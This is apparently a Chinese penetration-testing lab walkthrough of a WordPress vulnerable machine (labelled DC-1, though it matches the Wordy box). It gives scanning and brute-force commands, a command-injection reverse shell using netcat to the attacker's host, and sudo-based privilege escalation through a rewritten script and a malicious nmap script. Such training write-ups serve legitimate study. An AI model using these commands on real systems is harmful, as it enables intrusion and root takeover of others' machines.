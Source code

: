 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.14


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.14
```

![image-20220112092802044.png](../../_img\06-靶场实践/1652256592650-4f579673-f9c7-4b7e-9158-3a4a9339c4bf.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务


## 漏洞发现

在浏览器访问HTTP服务发现是使用wordpress搭建的站点，在首页显示`欢迎来到 Wordy，它是 WordPress 插件和安全领域的世界领导者`。

![image-20220112093308388.png](../../_img\06-靶场实践/1652256596173-e1a6d00d-8a99-46b1-8775-a3dfa06af1fb.png)

使用wpscan扫描

```
wpscan --url http://wordy/ -e u
```

![image-20220112094601481.png](../../_img\06-靶场实践/1652256599929-df786d27-d790-4363-a22b-a4fdee10048d.png)

扫描出一些用户名

将扫描出来的用户名保存到username.txt中，把kali中的rockyou.txt.gz字典的k01内容提取出来作为密码字典进行爆破

```
zcat /usr/share/wordlists/rockyou.txt.gz | grep k01 > /root/password.txt
```

```
wpscan --url http://wordy/ -U username.txt -P password.txt
```

![image-20220112095747521.png](../../_img\06-靶场实践/1652256604693-fe7bee53-bf22-4a14-9a2f-c1a39a1979d2.png)

使用爆破出来的账户登录后台http://wordy/wp-login.php

![image-20220112100034746.png](../../_img\06-靶场实践/1652256608224-c5efb259-0e0e-49b0-87e9-d60ed1bfa780.png)

在前面的信息收集中在站点的主页面提到了workpress插件，查看插件发现存在命令执行漏洞

这个地方让我想到了DVWA靶场的命令执行漏洞

![image-20220112101939341.png](../../_img\06-靶场实践/1652256611229-17f5ccc4-8712-4f8c-b7da-ffc09d11056c.png)


## 漏洞利用

存在命令执行漏洞那么我们就可以利用nc来反弹shell

创建监听

```
nc -vnlp 4444
```

执行反弹命令

```
192.168|nc 192.168.1.28 4444 -e /bin/bash
```

发现限制里输入的字符数，在前端进行修改

![image-20220112102257062.png](../../_img\06-靶场实践/1652256615571-e0efff38-c95b-447d-bfb7-55fadf48ac78.png)

再次执行，成功反弹shell

![image-20220112102558566.png](../../_img\06-靶场实践/1652256618552-bd7bcc55-ccd4-41b8-b9d5-6ca497afa95c.png)


## 提权

查看系统版本，没什么用

```
cat /proc/version
cat /etc/issue
```

![image-20220112103049949.png](../../_img\06-靶场实践/1652256622515-219bee43-6aa6-42b7-b79e-0dd1022b8b42.png)

在/home目录下查看到四个用户，依次查看在mark目录下的stuff目录下发现things-to-do.txt文件，查看得到账户`graham - GSo7isUM1D4`

![image-20220112103926720.png](../../_img\06-靶场实践/1652256625707-4def4a96-bd53-47a4-9509-1afc83e48999.png)

切换用户并查看graham所拥有的权限

![image-20220112104100137.png](../../_img\06-靶场实践/1652256628296-b31868ea-6800-4965-9441-157bea7e654a.png)

可以看到我们可以以jens用户执行jens目录下的脚本

在backups.sh中写入`/bin/bash`并以jens用户来执行

![image-20220112105446816.png](../../_img\06-靶场实践/1652256631513-79af65fc-ac15-4d5b-b899-e075e81879dd.png)

我们成功切换到jens用户

查看jens用户所拥有的权限

![image-20220112105600146.png](../../_img\06-靶场实践/1652256634522-590fbe18-cbc9-4796-ac27-4f3bd8ae1732.png)

发现我们可以以root用户权限来执行nmap，那么我们可以创建一个nmap脚本文件，然后使用nmap来执行恶意脚本文件来进行提权。

创建恶意脚本文件

```
echo 'os.execute("/bin/bash")' > XMTX.nse
```

![image-20220112110056438.png](../../_img\06-靶场实践/1652256638254-a8d87c4c-747e-4a30-88ab-ade97839775a.png)

使用nmap执行恶意脚本

```
sudo nmap --script=XMTX.nse
```

![image-20220112110135074.png](../../_img\06-靶场实践/1652256642291-5dbf3932-5921-4f66-8474-556aacda2fc2.png)

成功得到root权限


## final-flag

在root根目录下找到final-flag

![image-20220112110259840.png](../../_img\06-靶场实践/1652256646951-6a6bbccc-e678-48f1-98db-4b7874e9a2af.png)
